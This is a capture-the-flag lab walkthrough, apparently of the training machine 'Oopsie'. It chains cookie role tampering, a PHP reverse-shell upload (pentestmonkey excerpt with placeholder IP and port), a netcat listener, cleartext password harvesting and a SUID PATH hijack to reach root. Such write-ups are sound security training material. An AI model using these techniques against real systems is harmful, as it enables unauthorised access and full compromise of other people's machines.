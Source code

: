 
# Oopsie Write-up
<span style="color:cyan;">#startingPoint</span> <span style="color:cyan;">#PHP</span>
<span style="color:cyan;">#CustomApplications</span> <span style="color:cyan;">#Apache</span>
<span style="color:cyan;">#Reconnaissance</span> <span style="color:cyan;">#WebSiteStructureDiscovery</span>
<span style="color:cyan;">#CookieManipulation</span> <span style="color:cyan;">#SUIDExploitation</span>
<span style="color:cyan;">#Authenticationbypass</span> <span style="color:cyan;">#ClearTextCredentials</span>
<span style="color:cyan;">#ArbitraryFileUpload</span> <span style="color:cyan;">#InsecureDirectObjectReference(IDOR)</span>


## Introduction
This writeup details the steps to exploit a system called "Oopsie" using a combination of vulnerabilities, including Information Disclosure and Broken Access Control. These types of vulnerabilities, while often underestimated, can be critical when chained together to achieve system compromise.

## Enumeration
1. **Initial Scan with Nmap**:
    - Command: `nmap -sC -sV {TARGET_IP}`
    - Open ports: 22 (SSH), 80 (HTTP)

2. **Web Browsing**:
    - Visited the IP and found a website for automotive services.
    - Located information suggesting the presence of a login page.

3. **Using Burp Suite**:
    - Configured Firefox to route traffic through Burp Suite for passive scanning.
    - Found the `/cdn-cgi/login` directory containing the login page.

4. **Login Attempt**:
    - Tried default credentials without success.
    - Used "Login as Guest" option and gained limited access.

## Foothold
1. **Privilege Escalation via Cookies**:
    - Accessed Developer Tools in Firefox to manipulate cookies.
    - Changed `role=guest` to `role=admin` and `user=2233` to the admin user ID.

2. **Access to Upload Form**:
    - Gained access to the upload page.
    - Uploaded a PHP reverse shell (modified for specific IP and port).
    ```
        <?php
        // php-reverse-shell - A Reverse Shell implementation in PHP
        // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
        //
        // This tool may be used for legal purposes only. Users take full responsibility
        // for any actions performed using this tool. The author accepts no liability
        // for damage caused by this tool. If these terms are not acceptable to you, then
        // do not use this tool.
        //
        <SNIP>

        set_time_limit (0);
        $VERSION = "1.0";
        $ip = '127.0.0.1'; // CHANGE THIS WITH YOUR IP
        $port = 1234; // CHANGE THIS WITH YOUR LISTENING PORT
        $chunk_size = 1400;
        $write_a = null;
        $error_a = null;
        $shell = 'uname -a; w; id; /bin/sh -i';
        $daemon = 0;
        $debug = 0;
        <SNIP>
        ?>
    ```

3. **Reverse Shell**:
    - Set up a netcat listener: `nc -lvnp 1234`
    - Accessed the uploaded shell: `http://{TARGET_IP}/uploads/php-reverse-shell.php`
    - Got a reverse shell and upgraded it: `python3 -c 'import pty;pty.spawn("/bin/bash")'`

## Lateral Movement
1. **Exploring the System**:
    - As `www-data` user, searched for interesting files.
    - Found a directory `/var/www/html/cdn-cgi/login` with PHP files.

2. **Password Discovery**:
    - Used `grep` to find passwords in the code.
    - Found `MEGACORP_4dm1n!!` password.
    - Checked `/etc/passwd` for users, found `robert`.

3. **Switching to `robert` User**:
    - Used `su robert` with the discovered password.

## Privilege Escalation
1. **Checking Group Membership**:
    - Found `robert` belongs to the `bugtracker` group.

2. **Exploit SUID Binary**:
    - `find -group bugtracker` or ``find / -perm -u=s -type f 2>/dev/null`
    - Located `/usr/bin/bugtracker` with SUID bit set.
    - Created a fake `cat` command in `/tmp` directory with a shell script.

3. **Execute Exploit**:
    - Made the script executable: `chmod +x /tmp/cat`
    - Updated PATH: `export PATH=/tmp:$PATH`
    - Ran the `bugtracker` binary from `/tmp` directory.

4. **Obtaining Root Access**:
    - Successfully executed the script to gain root access.
    - Retrieved the root flag from `/root` directory.

## Conclusion
By carefully exploiting multiple vulnerabilities, we successfully gained root access to the "Oopsie" system. This process highlights the importance of even minor vulnerabilities and how they can be chained together to achieve full system compromise.

---

*Enumeration*
- Nmap scan
- Web browsing for login page
- Burp Suite configuration and usage

*Foothold*
- Cookie manipulation for privilege escalation
- Upload and execute a reverse shell

*Lateral Movement*
- Search for sensitive files and passwords
- Switch user to gain higher privileges

*Privilege Escalation*
- Exploit SUID binary to gain root access

